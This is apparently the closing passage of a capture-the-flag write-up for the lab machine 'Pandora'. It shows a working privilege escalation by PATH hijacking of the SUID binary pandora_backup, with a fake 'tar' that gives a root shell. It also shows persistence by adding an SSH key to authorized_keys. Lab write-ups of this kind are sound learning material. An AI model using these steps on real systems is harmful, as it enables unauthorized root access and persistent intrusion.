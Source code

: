 > This is not working...

### Exploit

There's other interesting binary called **pandora_backup** and have SUID bit.

When we execute it, it gives us:

```console
tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
Backup failed!
Check your permissions!
```

In order to fix this, I create an executable "tar", and then add the path of this executable. 

```console
matt@pandora:~$ echo "/bin/bash" > tar
matt@pandora:~$ chmod +x tar
matt@pandora:~$ export PATH=$(pwd):$PATH
matt@pandora:~$ /usr/bin/pandora_backup 
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:~#
```

> I really need help in this part, and I also need to move netcat to ssh because the shell was blocking everything from me...

## NC to SSH

This is how it is done: 

```
**netcat**
$ ssh-keygen -t rsa
$ cat id_rsa.pub > authorized_keys
**our machine**
# copy the content of id_rsa
$ ssh -i id_rsa matt@10.10.11.136
```

## CONCLUSION

This machine is much more difficult than Paper. The shell was giving me many problems, and I wasted a lot of time on that. My solution possibly is not the easiest one, but I'm still learning and gettin better.

### Techniques and Tools

1. nmap 
2. snmpwalk
3. sqlmap
4. RCE (Remote Code Execution)
5. PE (Privilege Escalation)

